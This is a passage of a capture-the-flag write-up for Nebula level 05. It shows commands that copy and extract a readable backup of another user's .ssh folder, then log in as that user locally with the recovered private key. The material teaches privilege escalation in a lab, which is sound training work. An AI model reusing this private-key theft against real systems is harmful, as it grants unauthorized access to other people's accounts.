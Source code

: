 We copy and extract the archive.

```shell
level05@nebula:~$ mkdir flag05_backup
level05@nebula:~$ cp /home/flag05/.backup/backup-19072011.tgz flag05_backup/
level05@nebula:~$ cd flag05_backup/
level05@nebula:~/flag05_backup$ tar xvf backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

The archive looks like a copy of `/home/flag05/.ssh`. We see that the content
of `id_rsa.pub` is the same as the content of `authorized_keys`.

```shell
level05@nebula:~/flag05_backup$ cat .ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLAINcUvucamDG5PzLxljLOJ/nrkzot7EQJ9pEWXoQJC0/ZWm+ezhFHQd5UWlkwPZ2FBDvqxdcrgmmHT/FVGBjK0XWGwIkuJ50nf5pbJExi2SC9kNMMMP2VgY/OxvcUuoGhzEISlgkuu4hJjVh3NeliAgERVzxKCrxSvW48wcAxg4v5vceBra6lY7u8FT2D3VIsHogzKN77Z2g7k2qY82A0vOqw82e/h6IXLjpYwBur0rm0/u3GFB1HFhnAxuGcn4IsnQSBdQCB2S+eOUZ4PmiQ/rUSHuVvMeLCzrxKR+UG9zDwoCwwXpNJehAQJGCiL3JzBNnLjFaylSqKP6xj7cR user@wwwbugs
level05@nebula:~/flag05_backup$ cat .ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLAINcUvucamDG5PzLxljLOJ/nrkzot7EQJ9pEWXoQJC0/ZWm+ezhFHQd5UWlkwPZ2FBDvqxdcrgmmHT/FVGBjK0XWGwIkuJ50nf5pbJExi2SC9kNMMMP2VgY/OxvcUuoGhzEISlgkuu4hJjVh3NeliAgERVzxKCrxSvW48wcAxg4v5vceBra6lY7u8FT2D3VIsHogzKN77Z2g7k2qY82A0vOqw82e/h6IXLjpYwBur0rm0/u3GFB1HFhnAxuGcn4IsnQSBdQCB2S+eOUZ4PmiQ/rUSHuVvMeLCzrxKR+UG9zDwoCwwXpNJehAQJGCiL3JzBNnLjFaylSqKP6xj7cR user@wwwbugs
```

Given that,
we should be able to `ssh` in as the flag05 user using the corresponding
`id_rsa` private key.

```shell
level05@nebula:~/flag05_backup$ ssh -i .ssh/id_rsa flag05@127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
```